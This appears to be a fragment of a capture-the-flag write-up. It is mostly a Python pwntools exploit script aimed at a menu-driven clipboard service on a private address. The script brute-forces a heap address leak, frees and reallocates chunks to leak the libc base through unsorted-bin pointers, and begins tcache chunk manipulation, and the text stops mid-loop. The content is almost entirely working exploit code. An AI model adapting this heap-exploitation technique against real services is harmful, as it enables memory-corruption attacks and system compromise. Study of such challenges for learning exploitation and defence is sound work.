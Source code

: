 <br />

## Ex code

```python
from pwn import *

context.log_level = 'debug'

def add_clip(idx, size, content):
    r.sendafter(b'> ', b'1')
    r.sendafter(b'index > ', str(idx).encode())
    r.sendafter(b'size > ', str(size).encode())
    r.sendafter(b'contents > ', content)

def del_clip(idx):
    r.sendafter(b'> ', b'2')
    r.sendafter(b'index > ', str(idx).encode())

def view_clip(idx):
    r.sendafter(b'> ', b'3')
    r.sendafter(b'index > ', str(idx).encode())


while 1:
    r = remote('192.168.0.3', 8794)
    r.recvuntil(b'leak: ')
    heap_base = int(r.recv(14), 16) & 0xfffffffff000
    chk = (heap_base & 0xf000)
    if chk == 0xf000:
        break
    r.close()
print(hex(heap_base))

#make unsortedbin chunk
for i in range(8):
    add_clip(i, 0x90, b'A')

for i in range(8):
    del_clip(7-i)

#get libc_addr from fd, bk of unsortedbin
for i in range(7):
    add_clip(i, 0x90, b'A')

add_clip(7, 0x50, b'H')

view_clip(7)
r.recvn(8)
libc_base = u64(r.recvn(6) + b'\x00'*2) - 0x21ac80 - 240
print(hex(libc_base))

#reset clip
for i in range(8):
    del_clip(7-i)

#setting chunk's addr like 0x0000
for i in range(7):
    add_clip(i, 0x50, b'A')

for i in range(7):
    del_clip(6-i)

for i in range(7):
```